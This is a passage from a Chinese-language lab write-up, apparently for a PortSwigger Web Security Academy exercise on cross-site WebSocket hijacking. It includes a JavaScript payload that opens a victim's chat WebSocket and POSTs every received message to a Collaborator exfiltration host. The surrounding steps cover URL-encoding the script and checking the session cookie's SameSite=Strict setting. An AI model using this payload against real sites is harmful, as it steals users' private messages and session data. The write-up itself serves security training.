 ```plain
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[![](assets/1705890866-03acfbde80b7b394b5131135af7dcfb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110845-e4590284-b5ae-1.png)  
对整个脚本进行 URL 编码，随后返回漏洞利用服务器新创建一个脚本，引导查看器的浏览器发送刚才测试的 GET 请求  
[![](assets/1705890866-340056f2915adb6dfb4dd6338563fc7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110856-ea9f117e-b5ae-1.png)  
在响应中请注意网站在设置会话 cookies 时显式指定了 SameSite=Strict，这可以防止浏览器在跨站点请求中包含这些 Cookies

[![](assets/1705890866-545e3289467bbeff5f4d2f445d38ebc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110914-f5da5d3c-b5ae-1.png)
